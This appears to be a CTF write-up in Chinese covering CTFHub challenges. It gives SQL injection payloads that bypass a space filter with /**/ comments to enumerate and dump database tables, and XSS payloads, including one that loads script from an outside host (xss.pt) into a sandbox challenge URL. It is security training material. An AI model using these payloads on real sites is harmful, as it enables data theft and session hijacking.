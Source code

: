 ### **过滤空格

此处过滤的方法为/**/，将所有空格替换即可

```
-1/**/union/**/select/**/1,database()
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004636702.png" alt="image-20220610004636702" style="zoom:80%;" />

```
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
```

![image-20220610004706937](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004706937.png)

```
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='vbcdtuxijo'
```

![image-20220610005327214](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610005327214.png)

```
-1/**/union/**/select/**/1,group_concat(xnmoiqaqbh)/**/from/**/vbcdtuxijo
```

![image-20220610005545729](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610005545729.png)



## *XSS

<script>alert("xss")<script/>

![image-20220610101156383](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101156383.png)

![image-20220610101401283](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101401283.png)

![image-20220610101503366](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101503366.png)

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104642430.png" alt="image-20220610104642430" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104722751.png" alt="image-20220610104722751" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104956215.png" alt="image-20220610104956215" style="zoom:80%;" />

把这个代码放到name之后得

```
http://challenge-283b0a5aa0e44c88.sandbox.ctfhub.com:10800/?name=<sCRiPt sRC=//xss.pt/z45c></sCrIpT>
```
